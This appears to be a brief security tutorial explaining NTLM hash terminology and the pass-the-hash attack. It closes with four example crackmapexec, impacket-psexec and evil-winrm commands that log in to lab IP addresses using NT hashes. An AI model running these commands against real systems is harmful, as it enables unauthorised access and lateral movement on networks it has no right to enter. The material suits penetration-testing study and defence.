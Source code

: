 ### **INTRODUCTION**

NTLMv1, NTLMv2 and NThash are all confusing terms and used interchangeably but let’s settle this once and for all:

1. NTHash: this is the hash of the password stored in the system in SAM hive and in active directory networks in the NTDS file.
2. NTLMv1: this is a challenge/response protocol to authenticate to a system using the NTHash.
3. NTLMv2: this is the newer version of the NTLM protocol with some adjustments but the same concept.

Now that we’ve settled this, let’s get back to business.

### **PASS-THE-HASH**

PtH or Pass-the-Hash attack is an attack where the attacker passes NTHash to systems instead of passwords. Remember NTLM? We as an end user type our password and let the system send it through a hashing algorithm to become NTHash and then send that to NTLM to authenticate us to the target system. Now in PtH, instead of typing the password and letting the system make a hash out of it for us, we pass the already found NThash, skipping those steps before authentication.

`crackmapexec smb 192.168.154.171 -u 'ted' -d 'exam.com' -H ':31aa99ebd6ea4b6d07051acfd48efa35' --shares`

`impacket-psexec -hashes ":d098fa8675acd7d26ab86eb2581233e5" exam.com/zensvc@192.168.154.170`

`impacket-psexec -hashes ":d098fa8675acd7d26ab86eb2581233e5"zensvc@192.168.154.170`

`evil-winrm -i 10.10.10.161 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6`